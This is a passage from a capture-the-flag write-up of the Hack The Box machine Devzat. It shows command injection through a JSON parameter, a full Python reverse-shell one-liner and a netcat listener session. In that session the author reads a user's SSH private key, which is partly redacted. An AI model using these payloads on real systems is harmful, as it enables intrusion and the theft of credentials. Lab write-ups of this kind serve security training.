 Inject the command after the species, i've tried the `||` but it doesn't work. Then I use another parameter `&&` and it works! After that let's spawn our precious shell, but I couldn't find the nc / netcat command. So let's try to spawn a shell with python and don't forget to set a listener also escape the payload because it's gonna be on JSON.

![](../image/devzat/ci1.jpg)

![](../image/devzat/ci2.jpg)

# User

So I use this python payload to spawn a shell `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP_HERE",YOUR_PORT_HERE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'`. Yay, I got a shell! but I need a better shell, so let's get the id_rsa and connect as patrick and don't forget to chmod 700 id_rsa.

```
BlackBear@kali | ~/HTB/Machine/Devzat/ > nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.118] 52384
$ whoami
patrick
$ cat /home/patrick/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA0z5vGXu4rlJWm2ffbekliU8N7KSuRj9tahP3+xTk/z/nKzb2UCi7
REDACTED REDACTED REDACTED
REDACTED REDACTED REDACTED
REDACTED REDACTED REDACTED
-----END OPENSSH PRIVATE KEY-----
```

Remember the chat via SSH? let's try that thing. Wow, i've found the chat between Patrick and Admin, it says that the Admin has successfully installed the `influxdb` let's check the `influxdb` exploit. 

```
patrick@devzat:/home$ ssh patrick@devzat.htb -p 8000

admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
Welcome to the chat. There is one more user
devbot: patrick has joined the chat
patrick: 
```

